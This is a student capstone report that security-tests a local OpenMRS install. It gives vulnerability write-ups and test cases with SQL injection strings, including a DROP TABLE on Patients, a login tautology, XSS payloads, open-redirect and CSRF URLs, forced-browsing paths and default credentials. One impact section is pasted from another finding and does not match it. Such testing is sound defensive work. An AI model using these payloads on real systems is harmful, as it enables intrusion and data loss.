



# NCSU CSC515 2017 - Project Capstone #
### TEAM 8 : ZLI36, XDING3, FLUAN, TNNGUYE6

***

## 1- OUTSTANDING VULNERABILITIES

## 1-1 LOGIN LOCATION OVERFLOW

### Affected module : OpenMRS login / Registration
+ Page location : http://localhost:8081/openmrs-standalone/login.htm
+ Attack type : Buffer overflow
+ Attack value : 99999999999999999999

### Vulnerability Description
 When logging in, there was no safe failing mechanism for invalid selection of session location value. In this case, server prints out full stack trace of the error. One way to carry out this attack is through SQL injection and replace the values of all location IDs with values beyond the scope of integer. Sequential integer order of location ID is also vulnerable to location probing. For example, a clerk may not be able to see the locations accessible by the doctors from the UI but can try to manually probe the location by putting in the location ID. 

### Business impact
Attackers can cause this buffer overflow leading to a complete denial of service potentially to all system users. Depending on the scale and task, the cost of each downtime hour can range from $100 to thousands of dollars. Violation of Service Level Agreement regarding the uptime may also lead to legal issues and bad reputations. Further business plans that are based on the effectiveness of location tracking may be troubled. For example, if a hospital is planning on opening another hospital and thinking of establishing online boundaries between two hospitals by using the location feature, such plan will have to put on hold.

### Consequences
Denial of service on system like OpenMRS can cause severe consequences to all stakeholders. Patients will not be accepted as fast as the hospital can handle and it may be huge issues in emergency cases. Doctors unable to look up important patient information will further cause delays in treatments and might even lead to incorrect decisions. With sequential integer as location ID, malicious insiders can try and may successfully login to locations s/he is not supposed to be in.

**Mitigation**

We proposed the short term fix and the long term fix.
The short term fix is to truncate the raw location ID string before converting it to integer to be used by other functions. This is one example of a possible fix

**Original code**


**Modified code**


The long term fix is to establish a hash table, mapping hashed values with true location IDs and only the hash values are made viewable by the users. This reduces the chance of location hijacking and improves the security of all components that use location data. For example, there are some modules or some programs made available to some certain locations. Making location data harder to guess will also help security administrator spot issues quicker. For example, a particular user was logged in into 2 locations at the same time.


## 1-2 LOGIN PAGE REDIRECT TO LOGOUT 

### Affected module : OpenMRS login
+ Page location : http://localhost:8081/openmrs-standalone/login.htm
+ Attack type : unauthorized redirect after login
+ Attack value : %2Fopenmrs-standalone%2Fappui%2Fheader%2Flogout.action%3FsuccessUrl%3Dopenmrs-standalone

### Vulnerability Description
Attackers can redirect logged in users immediately to a logout page upon users' successful login, creating an illusion that user's credential was not correct. The exploit is simple yet can cause a massive confusion as well as effective denial of service. In another case, attackers may redirect users to a malicious page upon login in order to steal session cookies and other important information.


### Business impact
Attackers can cause this buffer overflow leading to a complete denial of service potentially to all system users. Depending on the scale and task, the cost of each downtime hour can range from $100 to thousands of dollars. Violation of Service Level Agreement regarding the uptime may also lead to legal issues and bad reputations. Further business plans that are based on the effectiveness of location tracking may be troubled. For example, if a hospital is planning on opening another hospital and thinking of establishing online boundaries between two hospitals by using the location feature, such plan will have to put on hold.


### Consequences
Denial of service on system like OpenMRS can cause severe consequences to all stakeholders. Patients will not be accepted as fast as the hospital can handle and it may be huge issues in emergency cases. Doctors unable to look up important patient information will further cause delays in treatments and might even lead to incorrect decisions. With sequential integer as location ID, malicious insiders can try and may successfully login to locations s/he is not supposed to be in.

### Mitigation
We propose two solutions, one for short term and the other one for long term.
For the short term, the solution is to spot and replace any "logout" string with a "home" string so that even when attackers found a way to force the logout page (to accomplish denial of service), the server codes will change that and redirect user back to home.

**Original code**


**Modified code**


For the long term solution, we recommend encryption of URL information. Before sending the responses to clients, the server encrypts the redirection URL using a private key. Later on, when receiving back the URL redirection data from client's request, server will decrypt and perform redirection. Due to encryption mechanism, it will be impossible for attackers to guess or forge redirection data. The private key can be deprived from the session key so we will have a new key for each user session.

## 1-3 PRIVACY VIOLATION

### Affected module : Whole OpenMRS System

### Vulnerability Description
Mishandling private information, such as user passwords or private information, can compromise user privacy, and is often illegal. Privacy violations occur when users' private information enters the program, or the data is written to an external location.

For this vulnerability, the method *authenticate()* in *Context.java*:287 mishandles confidential information. More specifically, the password enters the program. Furthermore, the statement `log.debug("Authenticating with username: " + username);` in *authenticate()* will display the username in log when debug is enabled. From a security perspective, system should log all important operations so that any anomalous activity can later be identified. However, when private data is involved, this practice can in fact create risk.

### Business impact
This vulnerability would allow attackers access to personal information, sensitive data and system functionabilities. The leakage of personal information will cause a financial loss to employee and patients of hospitals using openMRS system. As a consequence, the reputation of the hospital and openMRS team will also be heavily damaged. The hospital and the openMRS team may even face a charge or financial punishment to compensate the loss of patients and employees.

### Consequences
The application may reveal system data, personal information or debugging information by raising exceptions or generating error messages. Leakage of sensitive data through an output stream or logging function can allow attackers to gain knowledge about the application and craft specialized attacks on the it. Once the attackers successfully take advantage of this vulnerability, they can get the username and password of users. After they log in as a user, they can do whatever they want, such as stealing personal information, or even breaking the system.

### Mitigation

One potential fix for this problem is minimizing the exposure of sensitive data and encrypting them if they are needed. Make sure the source code of the application cannot be decompiled and interpolated by others. Sanitize all messages, removing any unnecessary sensitive information. Ensure that debugging, error messages, and exceptions are only visible to developer.

For this vulnerability, we proposed a code fix shown below:

**Original code**


<br/>

**Modified code**


## 1-4 PASSWORD IN CONFIGURATION FILE

### Affected module : Whole OpenMRS System

### Vulnerability Description
Storing a password in plaintext may result in a system compromise. Password management issues occur when a password is stored in plaintext in an application's properties or configuration file. Storing a plaintext password in a configuration file allows anyone who can read the file access to the password-protected resource.

For this vulnerability, in *liquibase-core-data.xml*:5, the password is stored as plaintext in the configuration file.  

### Business impact
This vulnerability would allow attackers access to the password and the resources the password protects. There is possibility that the attacker could make the system out of service by some methods such as changing the password. As a consequence, this would cause a impediment for hospitals relying on the openMRS system. The hospitals would suffer a loss of money to ensure normal operations. The openMRS system would also suffer a loss of reputation.

### Consequences
Once the attackers successfully take advantage of this vulnerability, the access control of openMRS system will be violated. This can result in compromise of the system for which the password is used. An attacker could gain access to this file and learn the stored password or even change the password to one of their choosing. Also, the attackers could access to the resources the password protects and then cause damage to the system. 

### Mitigation

To solve the problem, one efficient method is avoiding storing passwords in easily accessible locations. However, removing the fields in configuration file may need enormous architecture change and even break the system. So, another potential mitigation method for this problem is encrypting the password field or the whole configuration file with cryptographic hashes Then the plaintext password will not be retrieved by attacker. Also we can assign access permission on the configuration file. So the plaintext password is not accessible to the attackers without permission.

For this vulnerability, we proposed a code fix shown below:

**Original code:**


**Modified code:** 


***

## 2- TEST CASES

## [A1 - 01 - Injection] [ Drop Table ]

### Name of module : [ Search ]

### Priority : [ high ]

### Test Description
Injection attacks occur when unvalidated input is embedded in an instruction stream and cannot be distinguished from valid instructions. This test is to see whether using SQL key words in the search fields will affect the database.

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
1. OpenMRS with demo database runs normally


### * Test steps
1. Start local openMRS and log in with the username(`nurse`) and password(`Nurse123`)
2. Click “Find Patient Record” in the main page
3. Input `a'; Drop Table Patients;"` in the search field


### * Expected results
1. No result will be shown
2. Existed patients will not be deleted

### * Actual results
 No result showed
 Existing patients still there
 
 

### Test status : [ Pass ]

***

## [A1 - 02 - Injection] [ Tautology ]

### Name of module : [ Login ]

### Priority : [ High ]

### Test Description
Injection attacks occur when unvalidated input is embedded in an instruction stream and cannot be distinguished from valid instructions. This test case is to test whether using tautology can bypass password authentication.

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
1. OpenMRS with demo database runs normally

### * Test Data
1. Username: `' OR '1' = '1` Password: `' OR '1' = '1 `


### * Test steps
1. Start local openMRS
2. Log in with the username and password

### * Expected results
1. Fail to login

### * Actual results
Login Failed

### Test status : [ pass ]

***

## [A2 - 01 - BAC] [ Exposed Session IDs ]

### Name of module : [ Session ]

### Priority : [high]

### Test Description : Broken Access Control 
Access control, sometimes called authorization, is how a web application grants access to content and functions to some users and not others. These checks are performed after authentication, and govern what 'authorized' users are allowed to do. This test case focuses on whether the session IDs are exposed to the URLs.

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
1. OpenMRS with demo database runs normally

### * Test Data
1. Username: `nurse`
2. Password: `Nurse123`

### * Test steps
1. Start local openMRS and log in with the username and password
2. Click all links on the web page and see the URLs

### * Expected results
1. No session information will be exposed in the URLs

### * Actual results
No session information exposed

### Test status : [ pass ]

***

## [A2 - 02 - BAC] [ Session Time Outs ]

### Name of module : [ Session ]

### Priority : [high]

### Test Description : Broken Access Control 
Access control, sometimes called authorization, is how a web application grants access to content and functions to some users and not others. These checks are performed after authentication, and govern what 'authorized' users are allowed to do. In this test, we will test whether the session is ended when the browser closes.

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
1. OpenMRS with demo database runs normally

### * Test Data
1. Username: `nurse`
2. Password: `Nurse123`

### * Test steps
1. Start local openMRS and log in with the username and account
2. Close browser
3. Reopen browser and visit the website again

### * Expected results
1. Login will be required

### * Actual results
Login is required

### Test status : [ pass ]

***

## [A3 - 01 - XSS] [ Detecting Reflected XSS ]

### Name of module : [ Search field in Find Patient Record ]

### Priority : [high]

### Test Description
XSS attacks are essentially code injection attacks into the various interpreters in the browser. This test case is trying to detect if a script can be integrated in HTML and executed.

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
1. OpenMRS with demo database runs normally

### * Test steps
1. Start local openMRS and log in with the username (`nurse`) and password (`Nurse123`)


2. Click “Find Patient Record” in the main page


3. Input script (`<script>alert("Attacked")</script>`) in the search field and search


4. Input script (`%3cscript%3e alert("Attacked") %3cscript%3e`) in the search field and search


### * Expected results
1. Scripts are not accepted
2. Scripts are accepted but not executed

### * Actual results
Scripts are accepted but not executed.


### Test status : [ Pass ]

***


## [ A3 - 02 - XSS ] [ Detecting Stored XSS ]

### Name of module : [ Allergy page ]

### Priority : [high]

### Test Description

XSS attacks are essentially code injection attacks into the various interpreters in the browser. This test case is trying to see if script can be stored and executed in the allergy page.

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped

### * Assumption
1. OpenMRS with demo database runs normally

### * Test steps
1. Start openMRS and log in with username(`nurse`) and password(`Nurse123`)


2. Click “Find Patient Record” button in the main page


3. Search one of the patient (e.g. Christopher Allen) and go to the patient page by clicking the entry


4. In the patient page, find ALLERGIES column and click the edit button


5. In the allergy page, click “Add New Allergy” button to add a new allergy


6. In the “comment” field, add the script (`<script>alert("Attacked")</script>`). Other field can be filled with own choice. After that, save the allergy.


7. Go to the allergy page again to see if there is a pop-up with message "Attacked"


8. Again add a new allergy and In the “comment” field, add the script(`comment"><script>alert("Attacked")</script>`). Other field can be filled with own choice. After that, save the allergy.


9. Go to the allergy page again to see if there is a pop-up with message "Attacked"


### * Expected results
1. Scripts are not accepted. No pop-up.
2. Scripts are accepted but not executed. No pop-up.

### * Actual results
Scripts are accepted but not executed. No pop-up.


### Test status : [ Pass ]

***


## [ A4 - 01 - BAC ] [ Non-admin account access to admin function ]

### Name of module : [ System Administration ]

### Priority : [high]

### Test Description
This test case is designed to test whether a non-admin user can access to admin functions

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
1. OpenMRS with demo database runs normally

### * Test steps
1. Start local openMRS and log in with username(`nurse`) and password(`Nurse123`)


2. Replace the `/referenceapplication/home.page` in the URL with `/coreapps/systemadministration/systemAdministration.page`


3. Direct the URL to see if the user can access to the system administration page

### * Expected results
User cannot access to system administration page while logging in as Nurse account (non-admin)

### * Actual results
The Nurse account can access to the administration page


### Test status : [ Fail ]

***


## [ A4 - 02 - BAC ] [ Unauthorized access to system ]
 

### Name of module : [ Main Page ]

### Priority : [high]

### Test Description
This test case is designed to test whether someone could access to the system without logging in

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
1. OpenMRS with demo database runs normally

### * Test steps
1. Start local openMRS


2. Without logging in, put `http://localhost:8081/openmrs-standalone/referenceapplication/home.page` in the URL of browser.


3. Direct the URL to see if it can access to the system.

### * Expected results
User cannot access to the main page without logging in

### * Actual results
No response from the page. User cannot access to the main page without logging in

### Test status : [ pass ]

***


## [A5 - 01 - Security Misconfiguration ] [ Default username and password]
### Test status : [ pass ]
 

### * Description

This test verifies there is no default username and password which can be used by hackers.

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
1. OpenMRS with demo database runs normally

### * Test Data
Test username: admin

Test password: password

Test username: user

Test password: password

### * Test steps
1. Go to http://localhost:8081/openmrs-standalone/login.htm
2. Try to login with default user name and password  (listed in Test Data section)

### * Expected results
There should be no default user name and password and tester should not be able to logon

### * Actual results
Log in failed with test username and password.


***

## [A5 - 02 - Security Misconfiguration ] [ DirectoryListing]
### Test status : [ pass ]

### * Description

This test verifies the application will not list any directory when we only change the link.


### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
1. OpenMRS with demo database runs normally

### * Test Data
Test username: admin

Test password: Admin123

### * Test steps
1. Go to `http://localhost:8081/openmrs-standalone/login.htm` . Log in as admin (credentials in Test Data section)
2. Change the link to directorylisting.(`http://localhost:8081/openmrs-standalone/directorylisting`)

### * Expected results
The application should not list any directory.

### * Actual results
No directory was listed following the test steps.


***

## [A6 - 01 - Sensitive Data Exposure ] [ Search History ]
### Test status : [ Failed ]

### * Description

This test verified the application will not list searching history when we exit the searching page.


### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
1. OpenMRS with demo database runs normally

### * Test Data
Test username: admin

Test password: Admin123

### * Test steps
1. Go to `http://localhost:8081/openmrs-standalone/login.htm` . Log in as admin and register two patients named “Frank” and “Fred”
2. Back to home page.
3. Click on "search patient" and right click "Frank" to view the source code.
4. Redo step 2-3 and search "Fred".
5. Check whether the source code remember admin's behavior by searching "Frank".

### * Expected results
There should be no information about Frank.

### * Actual results
When we check the source code of webpage for patient Fred, the visit patient history part of code showed information of Frank, which is kind of sensitive exposure.


***


## [A6 - 02 - Sensitive Data Exposure ] [ Web Certification ]
### Test status : [ Failed ]

### * Description

This test verified the application need to certificate on every web page.


### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
1. OpenMRS with demo database runs normally
2. Chrome or Firefox that can check security

### * Test Data
Test username: admin

Test password: Admin123

### * Test steps
1. Log in as admin
2. Test the certificate via Google chrome

### * Expected results
The web application should have certification on each available website.

### * Actual results
The settings showed us that even the home page for this application is not secure.


***


## [A7 - 01 - IAP ] [ DETECTING LEADING SPACE ATTACKS ]
### Priority : medium
### Test status : FAILED

### * Description
#### Name of module : OpenMRS Login page
This test determines the level of OpenMRS protection against leading space attack attempts on the login page.

### * Precondition
1. A local computer with administrator privilege
2. Java JRE installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unziped
4. OWASP ZAP Version 2.6.0 downloaded and installed

### * Dependencies
1. OpenMRS with demo database was loaded and runs normally
2. OWASP ZAP runs normally

### * Test Data
* Pair 1
Username: 5 empty spaces
Password: 5 empty spaces

* Pair 2
Username: admin
Password: 100 empty spaces followed by "password"

* Pair 3
Username: 100 empty spaces followed by "admin"
Password: 100 empty spaces followed by "password"

### * Test steps
1. Open up OpenMRS V. 2.6.0 Standalone. Make sure Tomcat Port is 8081 and MySQL port is 3316. A web page starting with localhost:8081 will be automatically opened upon successful start.
2. Open up browser and go to "http://localhost:8081/openmrs-standalone/login.htm" (without the brackets)
3. Put in the value of pair 1 and click "login" button. Observe the OpenMRS 2.6.0 Standalone window (the one with the "Start" and "Stop" button)
4. Put in the value of pair 2 and click "login" button. Observe the OpenMRS 2.6.0 Standalone window (the one with the "Start" and "Stop" button)
5. Put in the value of pair 3 and click "login" button. Observe the OpenMRS 2.6.0 Standalone window (the one with the "Start" and "Stop" button)


### * Expected results
1. For pair 1, there must be a log with "INFO" type in the service console, saying "Failed login attempt - Empty username and password"
2. For pair 2, there must be a log with "INFO" type in the service console, saying "Failed login attempt - Username = admin and Password = password
3. For pair 3, there must be a log with "INFO" type in the service console, saying "Failed login attempt - Username = admin and Password = password

### * Post-condition
Login page is still available to whoever was doing the attack.

### * Actual results
1. There was no log in the service console after logging in with pair 1
2. With pair 2, post login log in the service console is "Failed login attempt (login=admin) - Invalid usrname and/or password : admin". This meeans the system was not able to record the mallicious string after large enough leading spaces.
3. There was no log in the service console after logging in with pair 3. This means with large enough trailing spaces, injection attacks on both username and password will go undetected

### * NOTES:
Contact tam.nguyen@ncsu.edu if you have problems following instructions in this test case.

***

## [ A7 - 02 - IAP ] [ PROTECTION AGAINST AUTOMATIC SCAN ]
### Priority : medium
### Test status : FAILED

### * Description
#### Name of module : OpenMRS Login page
This test determines the level of OpenMRS protection against repeated, automatic attack attempts on the login page.

### * Precondition
1. A local computer with administrator privilege
2. Java JRE installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. OWASP ZAP Version 2.6.0 downloaded and installed

### * Dependencies
1. OpenMRS with demo database was loaded and runs normally
2. OWASP ZAP runs normally

### * Test Data
Default rules that were pre-loaded in OWASP ZAP scanner

### * Test steps
1. Open up OpenMRS V. 2.6.0 Standalone. Make sure Tomcat Port is 8081 and MySQL port is 3316. A web page starting with localhost:8081 will be automatically opened upon successful start.
2. Open up OWASP ZAP 2.6.0
3. From OWASP ZAP menu, go to Tools > Spider. In tab "Scope" box "Starting point", type : "http://localhost:8081/openmrs-standalone/login.htm" (without the brackets) and then click "Start Scan".
4. After the spider is done, from the OWASP ZAP main screen, type "http://localhost:8081/openmrs-standalone/login.htm" (without the brackets) into the box "URL to attack" and then click "Attack".
5. OWASP ZAP may relaunch the spider. At the bottom section, you may found the current tab is the "Spider" tab. After the spider is done, the program will automatically switch to the "Active " tab.
6. Monitor the column "Code" in OWASP ZAP scanner, the "Active Scan" tab and the OpenMRS 2.6.0 Standalone service console (the one with the "Tomcat port" and the "MySQL port" boxes)

### * Expected results
1. For each of OWASP ZAP's probe, the OpenMRS 2.6.0 Standalone console must give a description indicating a fail attempt at attacking the login page
2. After a certain number of attempts, server will throw a 4xx page (for example a "HTTP 400 - Bad Request" page). This expectation can be substituted with a page redirection code.

### * Post-condition
Login page is made unavailable to whoever was doing the attack.

### * Actual results
1. There was no alert in the OpenMRS 2.6.0 Standalone console while more than 100 of probing attempts were carried out on the login page


2. Login page's status codes returned to OWASP ZAP were all "200"


### * NOTES:
Contact tam.nguyen@ncsu.edu if you have problems following instructions in this test case.

***

## [ A8 - 01 - CSRF ] [ CHANGE DEFAULT LANGAUGE ATTACK ]
### Priority : HIGH
### Test status : PASSED

### * Description
#### Name of module : OpenMRS default setting page

### * Precondition
1. A local computer with administrator privilege
2. Java JRE installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. A connection to the internet

### * Dependencies
1. OpenMRS with demo database was loaded and runs normally
2. Good connection to the internet

### * Test Data
http://localhost:8081/openmrs-standalone/adminui/myaccount/changeDefaults.page?defaultLocale=fr

### * Test steps
1. Open up OpenMRS V. 2.6.0 Standalone. Make sure Tomcat Port is 8081 and MySQL port is 3316. A web page starting with localhost:8081 will be automatically opened upon successful start. The default language should be English. Login to OpenMRS
2. Using Windows Edge browser, go to "https://www.w3schools.com/tags/tryit.asp?filename=tryhtml_iframe"
3. At the W3School page, replace the value of iframe src with "http://localhost:8081/openmrs-standalone/adminui/myaccount/changeDefaults.page?defaultLocale=fr" without the double quotes and click the "Run" button.
4. You may have to choose "Load all protected content" and repeat step 3. Go back to the homepage of OpenMRS and observe the language of the page

### * Expected results
In the iframe, OpenMRS server will give an error message and the default language is still English.

### * Post-condition
The OpenMRS service should still be able to run normally with the right language

### * Actual results
In the iframe, OpenMRS server gave an error message and the default language is still English.
"UI Framework Error - Root Error"


### * NOTES:
Contact tam.nguyen@ncsu.edu if you have problems following instructions in this test case.

***


## [ A8 - 02 - CSRF ] [ COMMAND EXECUTION ]
### Priority : HIGH
### Test status : PASSED

### * Description
#### Name of module : OpenMRS help page
A different page will embed a link to OpenMRS. While the link appears to be normal (going to a known good site - the OpenMRS site), once the user clicks on it, it will launch an attack to the server under the logged in identity of the user. 

### * Precondition
1. A local computer with administrator privilege
2. Java JRE installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unziped
4. A connection to the internet

### * Dependencies
1. OpenMRS with demo database was loaded and runs normally
2. Good connection to the internet

### * Test Data
http://localhost:8081/openmrs-standalone/adminui/myaccount/changeDefaults.page?lang=ZAP%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%0

### * Test steps
1. Open up OpenMRS V. 2.6.0 Standalone. Make sure Tomcat Port is 8081 and MySQL port is 3316. A web page starting with localhost:8081 will be automatically opened upon successful start.
2. Using Windows Edge browser, go to "https://www.w3schools.com/tags/tryit.asp?filename=tryhtml_iframe"
3. At the W3School page, replace the value of iframe src with "http://localhost:8081/openmrs-standalone/adminui/myaccount/changeDefaults.page?lang=ZAP%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%25n%25s%0" without the double quotes and click the "Run" button.

4. You may have to choose "Load all protected content" and repeat step 3. Observe the result on the right iframe

### * Expected results
In the iframe, OpenMRS server will give an internal server error message
HTTP Status 500 - Request processing failed; nested exception is java.lang.IllegalArgumentException ...

### * Post-condition
The OpenMRS service should still be able to run normally

### * Actual results
In the iframe, OpenMRS server gave an internal server error message
HTTP Status 500 - Request processing failed; nested exception is java.lang.IllegalArgumentException ...


### * NOTES:
Contact tam.nguyen@ncsu.edu if you have problems following instructions in this test case.

***


## [A9 - UCKA] [ Finding Components with Known Vulnerabilities ]

### Name of module : [ Third Party Libraries & Database ]

### Priority : [low]

### Description
This case is listing all the components with known vulnerabilities. And describe some  related vulnerabilities.

### List of Components
1. Apache Tomcat:7.0.50
2. MySQL: Latest
3. JQuery: 1.12.4
4. Spring framework: 3.x
5. Hibernate: N/A
6. Java: Java 6 is minimal
6. JDK: JDK 7
7. Liquibase: 2.0


### Vulnerabilities
Module: Tomcat

Vulnerability: A malicious web application running on Apache Tomcat 9.0.0.M1 to 9.0.0.M9, 8.5.0 to 8.5.4, 8.0.0.RC1 to 8.0.36, 7.0.0 to 7.0.70 and 6.0.0 to 6.0.45 was able to bypass a configured SecurityManager via manipulation of the configuration parameters for the JSP Servlet

Link:[https://nvd.nist.gov/vuln/detail/CVE-2016-6796](https://nvd.nist.gov/vuln/detail/CVE-2016-6796)


Module: Hibernate

Vulnerability: ReflectionHelper (org.hibernate.validator.util.ReflectionHelper) in Hibernate Validator 4.1.0 before 4.2.1, 4.3.x before 4.3.2, and 5.x before 5.1.2 allows attackers to bypass Java Security Manager (JSM) restrictions and execute restricted reflection calls via a crafted application.

Link:[https://nvd.nist.gov/vuln/detail/CVE-2014-3558](https://nvd.nist.gov/vuln/detail/CVE-2014-3558)

***

## [ A10 - 01 - API ] [ User object - Unvalidated Redirects and Forwards ]
### Priority : medium
### Test status : PASSED

### * Description
#### Name of module : OpenMRS API - "User" object
This test determines the level of OpenMRS API User object's protection against unauthorized access.

### * Precondition
1. A local computer with administrator privilege
2. Java JRE installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unziped
4. OpenMRS Webservice API installed
5. Curl installed (optional)

### * Dependencies
1. OpenMRS with demo database was loaded and runs normally
2. OpenMRS webservice API (https://modules.openmrs.org/#/show/153/webservices-rest)

### * Test Data
http://localhost:8081/openmrs- standalone/coreapps/activeVisits.page?app=www.google.com

### * Test steps
1. Open up OpenMRS V. 2.6.0 Standalone. 
2. direct to the url in the test data

### * Expected results
1. The page should be redirected to “www.google.com”

### * Actual results
1. The page was redirected to “www.google.com”

***

## [ A10 - 02 - API] [ User object - TEST FOR AUTHENTICATION ]
### Priority : medium
### Test status : PASSED

### * Description
#### Name of module : OpenMRS API - "User" object
This test determines the level of OpenMRS API User object's protection against unauthorized access.

### * Precondition
1. A local computer with administrator privilege
2. Java JRE installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unziped
4. OpenMRS Webservice API installed
5. Curl installed (optional)

### * Dependencies
1. OpenMRS with demo database was loaded and runs normally
2. OpenMRS webservice API (https://modules.openmrs.org/#/show/153/webservices-rest)

### * Test Data
http://localhost:8081/openmrs-standalone/ws/rest/v1/user/
and/or
curl -X GET --header 'Accept: application/json' 'http://localhost:8081/openmrs-standalone/ws/rest/v1/user'  (optional)

### * Test steps
1. Open up OpenMRS V. 2.6.0 Standalone. Make sure Tomcat Port is 8081 and MySQL port is 3316. A web page starting with localhost:8081 will be automatically opened upon successful start.
